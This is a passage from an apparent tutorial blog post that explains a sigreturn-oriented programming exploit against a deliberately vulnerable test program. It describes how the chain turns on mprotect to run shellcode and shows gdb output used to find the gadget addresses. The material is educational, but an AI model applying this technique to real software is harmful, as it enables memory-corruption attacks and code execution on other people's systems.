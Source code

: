 Our goal is to change protection of memory page containing our shellcode. More
precisely, we want to make the following call so that we can execute our
shellcode:

{% highlight c %}
mmprotect(0x601000, 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
{% endhighlight %}

Here, is what happens when the vulnerable function returns:

1.   The artificial gadget is executed. It sets rax register to 15.
1.   Our artificial gadget is followed by a syscall gadget that will result in a sigreturn call.
1.   The sigreturn uses our fake uc_mcontext structure to restore registers values. Only non shaded parameters in figure 3 are relevant to the exploit. After this call, rip points to syscall gadget, rax is set to mprotect syscall number, and rdi, rsi and rdx hold the parameters of mprotect function. Additionally, rsp points to our payload in .bss.
1.   mprotect syscall is executed.
1.   ret instruction of syscall gadget is executed. This instruction will set instruction pointer to the address popped from rsp. This address points to our shellcode (see figure 2).
1.   The shellcode is executed.

![]({{site.baseurl}}/images/srop_exploit.png){:width="270px" .center}
*Figure 3: Stack after overflowing input buffer*

### Replaying the exploit

The above code has been compiled using gcc (gcc -g -o vuln vuln.c) on a
Debian Wheezy running on x_86_64 arch. Before reproducing this exploit, you
need to adjust first the following addresses:

*   **SYSCALL_GADGET**
{% highlight terminal %}
mtalbi@mtalbi:/home/mtalbi/srop$ cat /proc/self/maps
...
7ffffe5ff000-7ffffe600000 r-xp 00000000 00:00 0         [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0 [vsyscall]
...
gdb$ x/3i 0xffffffffff600000
   0xffffffffff600000:  mov    rax,0x60
   0xffffffffff600007:  syscall 
   0xffffffffff600009:  ret
{% endhighlight %}

*   **RAX_15_GADGET**
{% highlight terminal %}
mtalbi@mtalbi:/home/mtalbi/srop$ gdb server
(gdb) disas gadget
Dump of assembler code for function gadget:
   0x0000000000400acf <+0>:     push   %rbp
   0x0000000000400ad0 <+1>:     mov    %rsp,%rbp
   0x0000000000400ad3 <+4>:     mov    $0xf,%rax
   0x0000000000400ada <+11>:    retq   
   0x0000000000400adb <+12>:    pop    %rbp
   0x0000000000400adc <+13>:    retq   
End of assembler dump.
{% endhighlight %}


[haka-blur]: {{site.baseurl}}/images/haka_blur.png